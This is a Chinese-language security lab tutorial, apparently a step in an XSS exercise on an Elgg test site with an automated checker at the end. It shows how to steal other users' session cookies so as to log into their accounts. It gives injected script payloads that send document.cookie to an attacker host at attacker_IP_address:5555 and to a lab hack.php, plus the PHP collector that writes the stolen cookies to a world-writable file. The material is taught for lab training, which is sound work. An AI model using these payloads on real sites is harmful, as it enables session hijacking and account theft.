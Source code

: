 上一小节的情况局限于获取自己的cookie，当然我们不需要自己的cookie，我们需要在不登陆的情况下，获取其他用户的Cookie，这样我们就可以使用cookie直接登录别人的账号。

要窃取别人的cookie，首先必须具备一个能接收cookie的环境，然后通过javascript代码把别人的cookie通过http请求发送到所搭的环境。

还是在profiles页面下编辑javascript代码

```
<script>document.write('<img src=http://attacker_IP_address:5555?c=' +escape(document.cookie) + '> ');</script>
```

下面我们将来创造一个这样的环境。

#### 1.在网站目录下面创建一个hack.php的文件:

```
sudo vim /var/www/XSS/elgg/hack.php
```
hack.php代码如下：
```
<?php
$cookie = $_GET["c"];
$log = fopen("cookie.txt","a");
fwrite($log,$cookie ."\n");
fclose($log);
?>
```

#### 2.创建一个cookie.txt,用它来储存cookie，并且这个文件要有写入的权限

![3.3-1](https://dn-simplecloud.shiyanlou.com/uid/8797/1524736793615.png-wm)

#### 3.在编辑profiles页面插入以下js代码，保存后访问用户资料页面。

```
<script>document.write('<img src=http://www.xsslabelgg.com/hack.php?c=' + escape(document.cookie) + '>');</script>
```

![3.3-2](https://dn-anything-about-doc.qbox.me/userid9094labid937time1430793000033?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

#### 4.查看cookie.txt文件，下图红色圆圈即为接收到的cookie.

![3.3-3](https://dn-simplecloud.shiyanlou.com/uid/8797/1524736867929.png-wm)

```checker
- name: check hack.php
  script: |
    #!/bin/bash
    file_name="/var/www/XSS/elgg/hack.php"
    ls $file_name
    grep cookie $file_name
  error: hack.php不存在或者文件内容不对
- name: check cookie.txt
  script: |
    #!/bin/bash
    ls /var/www/XSS/elgg/cookie.txt
  error: 指定目录下不存在 cookie.txt
- name: check cookie.txt priv
  script: |
    #!/bin/bash
    stat -c %a /var/www/XSS/elgg/cookie.txt|grep 777
  error: cookie.txt 权限配置不对
```
